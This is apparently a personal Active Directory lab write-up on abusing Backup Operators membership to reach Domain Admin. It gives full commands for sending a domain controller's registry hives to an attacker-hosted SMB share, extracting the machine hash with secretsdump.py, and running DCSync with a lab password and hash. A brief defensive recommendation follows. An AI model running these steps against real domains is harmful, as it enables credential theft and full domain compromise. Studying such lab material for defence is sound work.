 # Backup Operators

## Configuring

### Prerequisite&#x20;

The membership of the "Backup Operators" group is configured in the Dumping DPAPI page.

{% content-ref url="../../misc/page-3.md" %}
[page-3.md](../../misc/page-3.md)
{% endcontent-ref %}

## Attacking

### How it works

The Backup Operators group is a built in group in AD. By default it has no members.

Members of the Backup Operators group can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer. This group cannot be renamed, deleted, or moved. They also have the permissions needed to replace files (including operating system files) on domain controllers.

One of the known attacks is to copy the ntds.dit file and extract all the domain credentials from it.

{% hint style="info" %}
I wasn't able to copy the `ntds.dit` file. There are some write-ups such as [these](https://coldfusionx.github.io/posts/Blackfield-HTB/) describing how to abuse the "Backup Operator" group through making a shadow copy, but these require winrm access to the DC.&#x20;

In my attack we will use the tool BackupOperatorToDA from [mpgn](https://github.com/mpgn/BackupOperatorToDA).
{% endhint %}

### Tools

* [Smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py)
* [BackupOperatorToDA.exe](https://github.com/mpgn/BackupOperatorToDA)

### Executing the attack

#### The small stuff

* Login to the DC locally (Not through RDP but only locally):

![](<../../../.gitbook/assets/image (22) (1) (1) (1).png>)

* List files on the Domain Controller:

![](<../../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

* Copy files from the Domain Controller:

![](<../../../.gitbook/assets/image (67) (1) (1).png>)

#### To Domain Admin!

From our enumeration when we gained access to the `sa_backup` account we know the user is part of the Backup Operators group. We can abuse the permissions by making a copy of the SAM, SYSTEM and SECURITY hive, extract the machine account hash and then execute a DCsync attack.

1. Login to `DATA01` as `sa_backup` with the password `LS6RV5o8T9`.
2. Run the following command to check if the `sa_backup` user is member of the `Backup Operators` group.

![](<../../../.gitbook/assets/image (19) (1) (1) (1).png>)

3\. One of the requirements is to host a public SMB share, we can do this with the smbserver.py script from Impacket. This will create a share on `\\192.168.248.2\share`.

```
python3 /opt/impacket/examples/smbserver.py share ~/adlab -smb2support
```

![](<../../../.gitbook/assets/image (71) (1) (1) (1) (1) (1) (1) (1).png>)

4\. The next step is to execute the BackupOperatorToDa.exe tool to retrieve the the SAM, SYSTEN and SECURITY HIVE and save them in our created public share:

```
.\BackupOperatorToDA.exe -t \\dc03.secure.local -u sa_backup -p LS6RV5o8T9 -d secure.local -o \\192.168.248.2\share\
```

![](<../../../.gitbook/assets/image (68) (1) (1).png>)

{% hint style="info" %}
If you are using another share, make sure the share is writeable by anyone otherwise the DC won't be able to write its files.
{% endhint %}

5\. If we check in our directory `~/adlab` we can see the files: (for the screenshot I made a copy in the HIVE directory)

![](<../../../.gitbook/assets/image (73) (1) (1) (1) (1) (1).png>)

6\. The next step is to run SecretDump.py to retrieve the machine account NTLM hash out of these HIVE dumps:

```
secretsdump.py LOCAL -system ~/adlab/SYSTEM -security ~/adlab/SECURITY -sam ~/adlab/SAM
```

![](<../../../.gitbook/assets/image (53) (1).png>)

7\. The last step is to run Secretsdump.py to run DCsync and retrieve all the domain account hashes:

```
secretsdump.py 'secure.local/dc03$'@dc03.secure.local -hashes aad3b435b51404eeaad3b435b51404ee:ba6414d4e6ce546465b256950282c7f3
```

![](<../../../.gitbook/assets/image (18) (1) (1) (1).png>)

We retrieved the NTLM account hash of every user in the domain and could authenticate with these to the domain controller. As Administrator for example which is Domain Admin.

## Defending

### Recommendations

* Never use any of the "Operator" groups. Create specialised groups and minimal permissions for the tasks the different IT departments/roles need. Use the least privilege principal.

### Detection



## References

{% embed url="https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#account-operators" %}

